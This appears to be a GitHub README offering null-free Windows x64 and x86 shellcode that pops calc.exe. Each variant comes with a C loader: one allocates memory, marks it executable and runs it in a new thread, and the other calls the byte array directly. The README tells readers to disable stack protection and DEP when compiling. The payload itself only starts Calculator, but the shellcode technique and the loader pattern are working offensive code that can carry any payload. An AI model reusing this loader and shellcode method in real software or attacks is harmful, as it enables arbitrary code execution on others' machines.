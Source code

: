 # WinShellcode

Windows(x32-x64) null-free shellcode to pop calc.exe


Feel free to contact if any question...












To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:


Security Check: Disabled (/GS-)


Data Execution Prevention (DEP): No


##########################################################
```
//testing: x64
//len: 265

#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x50\x53\x51\x52\x57\x56\x55\x54\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x41\x57\x48\x83\xec\x20\x48\x31\xdb\x65\x4c\x8b\x63\x60\x4d\x8b\x64\x24\x18\x49\x8b\x74\x24\x20\x48\xad\x48\x96\x48\xad\x4c\x8b\x78\x20\x4d\x31\xe4\x45\x8b\x67\x3c\x4d\x01\xfc\x4d\x31\xf6\x45\x8b\xb4\x24\x88\x00\x00\x00\x4d\x01\xfe\x4d\x31\xe4\x45\x8b\x66\x20\x4d\x01\xfc\xeb\x77\x48\x31\xff\x41\x8b\x3c\x9c\x4c\x01\xff\x48\xa7\x74\x09\x48\xff\xc3\x48\x83\xee\x08\xeb\xe9\x48\x31\xf6\x48\x31\xff\x41\x8b\x76\x24\x4c\x01\xfe\x66\x8b\x3c\x5e\x48\x31\xf6\x41\x8b\x76\x1c\x4c\x01\xfe\x4d\x31\xf6\x44\x8b\x34\xbe\x4d\x01\xfe\xeb\x14\x48\x31\xd2\x48\x83\xc2\x0a\x48\x83\xec\x20\x41\xff\xd6\x48\x83\xc4\x20\xeb\x38\xe8\x1d\x00\x00\x00\x43\x3a\x5c\x57\x69\x6e\x64\x6f\x77\x73\x5c\x53\x79\x73\x74\x65\x6d\x33\x32\x5c\x63\x61\x6c\x63\x2e\x65\x78\x65\x00\x59\xeb\xc7\xe8\x08\x00\x00\x00\x57\x69\x6e\x45\x78\x65\x63\x00\x5e\xe9\x76\xff\xff\xff\x48\x83\xc4\x20\x41\x5f\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5c\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 263;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
############################################################
```
//testing: x32
//len: 193 byte

#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x57\x56\x55\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x50\x14\x31\xc0\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd0\x72\xe5\x83\xc4\x28\xeb\x3f\x8b\x4d\xf4\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x48\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}
```
##########################################################
